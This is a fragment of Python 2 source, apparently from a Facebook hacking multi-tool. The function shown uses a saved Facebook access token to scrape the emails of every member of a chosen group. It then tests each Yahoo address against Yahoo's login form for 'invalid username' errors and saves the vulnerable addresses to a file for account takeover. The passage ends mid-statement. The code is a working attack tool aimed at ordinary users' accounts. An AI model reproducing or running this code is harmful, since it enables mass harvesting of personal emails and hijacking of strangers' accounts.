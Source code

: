 	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/FriendMailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()
	
##### YAHOO MEMBER #####
def yahoomember():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('reset')
	print logo
	mpsh = []
	jml = 0
	id=raw_input('\033[1;91m[+] \033[1;92mInput ID group \033[1;91m:\033[1;97m ')
	try:
		r=requests.get('https://graph.facebook.com/group/?id='+id+'&access_token='+toket)
		asw=json.loads(r.text)
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom group \033[1;91m:\033[1;97m "+asw['name']
	except KeyError:
		print"\033[1;91m[!] Group not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	jalan('\033[1;91m[✺] \033[1;92mGetting email from group \033[1;97m...')
	teman = requests.get('https://graph.facebook.com/'+id+'/members?fields=name,id&limit=999999999&access_token='+toket)
	kimak = json.loads(teman.text)
	save = open('out/GrupMailVuln.txt','w')
	jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in kimak['data']:
		jml +=1
		mpsh.append(jml)
		id = w['id']
		nama = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				klik = br.submit().read()
				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					pek = jok.search(klik).group()